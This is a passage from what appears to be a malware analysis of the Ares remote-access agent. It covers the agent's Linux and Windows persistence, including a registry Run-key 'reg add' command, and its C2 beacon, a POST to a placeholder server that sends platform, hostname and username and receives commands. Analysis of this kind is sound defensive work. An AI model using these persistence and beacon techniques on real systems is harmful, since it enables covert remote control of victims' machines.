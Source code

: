 ```
(if [ $(ps aux|grep " + os.path.basename(sys.executable) + "|wc -l) -lt 2 ]; then " + ~/.ares/[name_of_executable] + ";fi&)
```

## Windows

-   Create directory “ares” within the user profile directory : **_%USERPROFILE%/ares_**
-   Copy the executable to the following aforementioned directory : **_%USERPROFILE%/ares/\[name\_of\_executable\]_**
-   Create value “ares” in the “HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run” registry key with the following command

```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /f /v ares /t REG_SZ /d \"%s\"" % [agent_path]
```

With that the “installation” of the agent is finished and it’ll start listening to commands from the C2 in an infinite loop.

![](https://miro.medium.com/v2/resize:fit:1264/1*qRvm5ZLQJ6HsBD7J6YpxCg.png)

“main” loop

It’ starts by executing a function called “server\_hello” which’ll perform a simple post request to the following URL and wait for instruction.

```
POST http(s)://[SERVER_IP]/api/USERNAME_[UUID]/hello
```

The request will send the following information to the C2 :

-   **Platform**
-   **Hostname**
-   **Username**

![](https://miro.medium.com/v2/resize:fit:1400/1*Por4uZfYtqekRQ04gT6xoQ.png)

“server\_hello” Function

**Note** that since no “User-Agent” is specified, the default User-Agent of the “requests” library will be used. (See below)

```
User-Agent: python-requests/[Version]
```

The result of this request will be stored in the variable “todo” that will contain any command(s) sent by the C2 server.

Before it checks the value returned from the server, the function **_“update\_consecutive\_failed\_connections”_** will be called. This function serves the purpose of logging the number of “failed” connections or exceptions within the main loop.

![](https://miro.medium.com/v2/resize:fit:998/1*WEYIsd7RQ0z9V8GKEFNCxQ.png)
